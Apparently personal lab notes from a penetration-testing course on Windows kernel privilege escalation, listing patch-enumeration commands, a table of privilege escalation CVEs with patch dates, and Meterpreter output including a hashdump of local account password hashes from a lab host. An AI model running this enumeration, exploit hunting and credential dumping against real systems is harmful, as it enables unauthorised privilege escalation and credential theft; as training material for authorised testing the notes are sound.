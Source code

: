 Over the years, there have been many kernel exploits that affect the Windows operating system from Windows 2000/XP up to Windows 10/Server 2016/2019. 

This [site](https://msrc.microsoft.com/update-guide/vulnerability) is handy for searching out detailed information about Microsoft security vulnerabilities. T
## fast enumeration:
```
systeminfo > systeminfo
# or get-hotfix to see when last updated
```
copy via rdp clipboard

`check for exploits`
```
wes-ng  systeminfo
```
## Enumerating Missing Patches

`checking updates`
```powershell-session
PS C:\htb> wmic qfe list brief
# LOOK FOR INSTALLEDON DATE
PS C:\htb> Get-Hotfix
```
## quick wins / known CVEs

| CVE              | Nickname            | Disclosed       | Fixed / Patch Date   |
|------------------|---------------------|-----------------|----------------------|
| CVE-2019-1322    | Service → SYSTEM    | Nov 2019        | Nov 2019 Patch Tues  |
| CVE-2019-1405    | Service Token LPE   | Nov 2019        | Nov 2019 Patch Tues  |
| CVE-2020-1472    | Zerologon           | Aug 2020        | Aug 11, 2020         |
| CVE-2021-1675    | Print Spooler LPE   | Jun 8, 2021     | Jun 2021 CU          |
| CVE-2021-34527   | PrintNightmare      | Jun 29, 2021    | Jul 6, 2021 (KB5004945) + Sept 2021 hardening |
| CVE-2021-36934   | HiveNightmare       | Jul 20, 2021    | Aug 10, 2021 (ACL fix) — shadow copies need manual cleanup |
| CVE-2021-1732    | Win32k Elevation    | Feb 2021        | Feb 2021 Patch Tues  |
| CVE-2021-40450   | Win32k PrivEsc      | Oct 2021        | Oct 12, 2021         |
| CVE-2022-35761   | Kernel LPE          | Aug 2022        | Aug 2022 Patch Tues  |
| CVE-2024-20698   | Kernel Bypass       | Jan 2024        | Jan 2024 Patch Tues  |
| CVE-2024-21302   | VBS Rollback        | Feb 2024        | Feb 2024 Patch Tues  |
| CVE-2025-21293   | AD Reg Permissions  | Jan 2025        | Jan 14, 2025         |


#### WMI
![](Pasted%20image%2020250320211532.png)
we can then search for that KB in microsoft update catalog site 
https://www.catalog.update.microsoft.com/Search.aspx
- A search for `KB5000808` shows us that this is an update from March of 2021, which means the system is likely far behind on security updates.


meterpreter > sysinfo

Computer        : WINLPE-WS02
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 6
Meterpreter     : x64/windows


meterpreter > hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb-student:1002:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6:::
mrb3n:1001:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:c93428723187f868ae2f99d4fa66dceb:::
```